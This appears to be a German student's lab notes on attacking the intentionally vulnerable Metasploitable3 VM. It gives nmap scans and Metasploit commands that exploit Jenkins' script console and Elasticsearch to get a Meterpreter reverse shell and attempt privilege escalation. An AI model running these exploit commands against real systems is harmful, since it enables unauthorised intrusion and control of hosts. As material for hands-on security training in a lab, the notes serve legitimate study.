 
,## Orf Beitrag zur Schule

## Split Command
Mit split kann ein zu großes Video in einzelne Parts zerlegt werden.

---


Vagrant aus dem Internet installieren
metasploitable3 von github pullen

Anleitung: 
https://liberty-shell.com/sec/2018/07/08/install-ms3/


Vagrant Download: 
https://www.vagrantup.com/downloads.html


Metasplotable 3:
git clone https://github.com/rapid7/metasploitable3.git


vagrant up für die Installation


Attacker - 10.0.2.15

Defender - 172.28.128.3

Commands:
--
msfdb init
nmap -sV -sC vuln -oN metaspl3linux

msfconsole
db_nmap <defender-ip>
db_nmap <defender_ip> -p 8585,8484
use auxiliary/scanner/http/http_version/

=> options können gesetzt werden
options müssen auf den defender gesetzt werden, damit der exploit darauf gelaufen werden kann.
options
setg rhosts <defender-ip>
=> globales port setzen 
setg rhost <defender-ip>
setg rport 9200
=> exploit laufen lassen
run
set rport 8484
run
set rport 8585
run

==== 
Browser öffnen 
<defender-ip>:9200
<defender-ip>:8484 => JENKINS 
<defender-ip>:8585 => WAMP => PHPINFO

=== 
metasploit window öffnen
search jenkins
set targeturi /
use auxiliary/scanner/http/jenkins_enum 
setg rhosts <defender-ip>
set rport 8484
run

=> alle services auflisten
services

search jenkins
grep exploit search jenkins

use exploit/multi/http/jenkins_script_console

options
set rport 8484
set targeturi /

set payload windows/meterpreter/reverse_tcp
set lhost <attacker-ip>
set hport 5555
set rport 8484


exploit

// Windows Shell
getuid
getsystem
=> zuwenig berechtigung ziel: get root

background
search elasticsearch
use exploit/multi/elasticsearch/script_mvel_rce
set lport 9999
exploit
